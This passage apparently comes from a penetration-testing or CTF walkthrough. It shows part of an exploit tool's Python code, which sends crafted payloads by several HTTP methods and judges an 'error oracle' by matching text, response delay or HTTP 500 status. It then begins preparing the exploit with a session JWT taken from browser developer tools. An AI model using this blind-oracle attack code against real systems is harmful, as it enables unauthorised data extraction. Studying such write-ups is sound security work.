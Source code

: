 ```c
        merged_data = self.parse_parameter(payload)
        # Make the request, the verb and data encoding is defined
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                if self.json_input: 
                    requ = self.session.put(self.target, json=merged_data)
                else:
                    requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                if self.json_input:
                    requ = self.session.delete(self.target, json=merged_data)
                else:
                    requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                if self.json_input:
                    requ = self.session.post(self.target, json=merged_data)
                else:
                    requ = self.session.post(self.target, data=merged_data)
                return requ
        except requests.exceptions.ConnectionError :
            print("[-] Could not instantiate a connection")
            exit(1)
        return None

    """
    Used to determine if the answer trigged the error based oracle
    TODO : increase the efficiency of the time based oracle
    """
    def error_oracle(self, s):
        requ = self.req_with_response(s)

        if self.match:
            # DEBUG print("PATT", (self.match in requ.text))
            return self.match in requ.text 

        if self.time_based_attack:
            # DEBUG print("ELAP", requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01))
            return requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01)
        
        # DEBUG print("CODE", requ.status_code == 500)
        return requ.status_code == 500
```

### Exploitation Preparation

The `exploit` required a to have a `valid session` and so we grabbed our `JSON Web Token (JWT)` form the `Web Developer Tools`.
